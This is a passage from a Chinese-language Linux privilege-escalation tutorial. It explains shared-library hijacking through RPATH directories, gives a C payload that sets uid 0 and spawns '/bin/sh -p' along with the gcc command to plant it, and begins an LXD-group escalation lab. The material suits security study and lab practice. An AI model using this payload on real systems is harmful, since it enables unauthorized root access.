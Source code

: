 ```
任何由rpath-link选项指定的目录（由rpath-link选项指定的目录仅在链接时有效）
任何由rpath选项指定的目录（rpath选项指定的目录都包含在可执行文件中，并在运行时使用）
LD_RUN_PATH
LD_LIBRARY_PATH
DT_RUNPATH或DT_RPATH中的目录。（如果存在DT_RUNPATH条目，则忽略DT_RPATH条目）
/lib和/usr/lib目录
/etc/ld.so.conf中的目录
```

1.通过ldd来获取程序使用的共享库信息

```
ldd 程序路径
```

2.找到程序利用的非标准依赖库

3.利用`readelf -d 程序 | grep PATH`查看程序自定义的共享库位置/或者是`objdump -x 程序 | grep RPATH`

4.找到自定义的共享库位置，自建链接库的文件到该共享库文件夹，执行程序查看是否缺少函数

5.创建.c文件，自定义这个函数名，设置uid为root，利用其执行bash或sh

```c
#include<stdio.h>
#include<stdlib.h>

void 函数名() {
    setuid(0);
    system("/bin/sh -p");
}
```

6.编译文件为动态链接文件`gcc c文件 -fPIC -shared -o /共享库/共享对象文件`

等待用户执行该漏洞二进制程序

(文件可由msf中的模块编译而成），

利用该漏洞进行提权需要注意的是：

1.我们需要找到一个具有缺陷的二进制文件或程序，并且有用户执行(或者是进行社工)

2.该程序存在外部的共享库依赖，并非只有标准库

3.我们对共享库的目录具有可写的权限,即我们可以替代该共享库(||该文件有缺陷，缺少函数名称，我们可以手动创建链接到共享库以便于执行我们自定义的函数)

这里能够找到相同的案例：https://tbhaxor.com/exploiting-shared-library-misconfigurations/

#### 利用特权组提权

##### LXC/LXD提权

**lab setup**

创建一个名为lowpriv的用户，并将其添加到lxd组中

```
useradd -m lowpriv --shell /bin/bash
usermod -a -G lxd lowpriv
```
